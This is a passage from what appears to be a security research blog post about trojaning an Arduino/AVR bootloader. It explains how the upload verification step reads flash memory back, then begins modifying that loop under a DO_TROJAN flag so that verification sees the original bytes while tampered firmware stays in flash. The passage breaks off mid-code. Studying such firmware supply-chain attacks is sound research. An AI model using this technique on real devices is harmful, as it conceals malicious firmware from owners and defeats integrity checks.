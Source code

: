 Let's compile this, and try executing our program again!

![Arduino IDE upload error]({{ 'assets/img/flaw3d-bootloader/arduino-upload-error.png' | relative_url }}){: .mx-auto.d-block :}

Oh no! What happened? Well, reading this error message, it seems to think that verification failed - when it read back the program, at byte address `0x006e` it expected the value `0xcf` and it was the value `0xc0`. Of course, the verification tool is detecting our change! Foiled!

Or are we? How does verification work, anyway? Well, it's just the inverse of the programming step. That is, the bootloader simply exports the flash memory, byte by byte, over the UART. Let's see what it looks like:

```c
// (in the main bootloader command rx loop... [simplified for the blog])

/* Read memory block mode, length is big endian.  */
	else if(ch=='t') {
		length.byte[1] = getch();
		length.byte[0] = getch();

		address.word = address.word << 1;	        // address * 2 -> byte location
		if (getch() == 'E') flags.eeprom = 1;
		else flags.eeprom = 0;
		if (getch() == ' ') {		                // Command terminator
			putch(0x14);
			for (w=0;w < length.word;w++) {		        // Can handle odd and even lengths okay
				if (flags.eeprom) {	                        // Byte access EEPROM read
          ...
				}
				else {

					if (!flags.rampz) putch(pgm_read_byte_near(address.word));
					address.word++;
				}
			}
			putch(0x10);
		}
	}
```

This is a little more complicated because it happens byte by byte, but we can still work with this. Essentially what we will do is read 7 bytes ahead of whatever byte the verification loop is up to, and if they're the ones we care about, we'll change them back!

```c
// (in the main bootloader command rx loop... [simplified for the blog])

/* Read memory block mode, length is big endian.  */
	else if(ch=='t') {
		length.byte[1] = getch();
		length.byte[0] = getch();

		address.word = address.word << 1;	        // address * 2 -> byte location
		if (getch() == 'E') flags.eeprom = 1;
		else flags.eeprom = 0;
		if (getch() == ' ') {		                // Command terminator
			putch(0x14);
			for (w=0;w < length.word;w++) {		        // Can handle odd and even lengths okay
				if (flags.eeprom) {	                        // Byte access EEPROM read
            ...
				}
				else {
#if defined DO_TROJAN && defined __AVR_ATmega328P__
					
					//no matter what, we always need to read 8 bytes (the desired address + 7) 
```